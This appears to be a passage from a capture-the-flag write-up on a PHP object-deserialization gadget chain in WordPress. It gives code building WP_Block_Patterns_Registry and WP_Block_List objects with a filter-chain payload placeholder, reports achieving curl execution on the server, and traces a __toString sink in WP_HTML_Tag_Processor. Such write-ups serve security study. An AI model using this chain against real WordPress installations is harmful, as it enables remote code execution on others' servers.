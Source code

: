 Now we can easily use this tool to create our filter chain https://github.com/synacktiv/php_filter_chain_generator

```php
class WP_Block_Patterns_Registry{
    public $registered_patterns = array('hehe' => array('filePath' => <payload>));
}

class WP_Block_List{
    public function __construct( $blocks, $available_context = array(), $registry = null ) {
		$this->blocks            = $blocks;
		$this->available_context = $available_context;
		$this->registry          = $registry;
	}
}
        
$b = array("blockName" => "hehe");
$c = new WP_Block_Patterns_Registry();
$a = new WP_Block_List(array($b),"2",$c);
```

![image](https://hackmd.io/_uploads/HySPDhNFee.png)

Now we have curl function works in the server.

### The question ?

Why we need `WP_Block_List` ???

Because it will call the `__construct` of `WP_Block` which is a part of gadget chain. If we just unserialize `WP_Block` but not using `WP_Block_List` we will trigger `__unserialize` method not `__construct`

### Sink dectection

Now, going back to the challenge, the next step is to identify the sink. According to Hint 2, we should focus on the __toString() function.

![image](https://hackmd.io/_uploads/BJr6U34tge.png)

Now take a look at `WP_HTML_Tag_Processor`, we have

```php
public function __toString(): string {
    return $this->get_updated_html();
}
```

This will calls `get_updated_html()` function

```php
public function get_updated_html(): string {
    $requires_no_updating = 0 === count( $this->classname_updates ) && 0 === count( $this->lexical_updates );

    /*
     * When there is nothing more to update and nothing has already been
     * updated, return the original document and avoid a string copy.
     */
    if ( $requires_no_updating ) {
        return $this->html;
    }

    /*
     * Keep track of the position right before the current tag. This will
     * be necessary for reparsing the current tag after updating the HTML.
     */
    $before_current_tag = $this->token_starts_at ?? 0;
```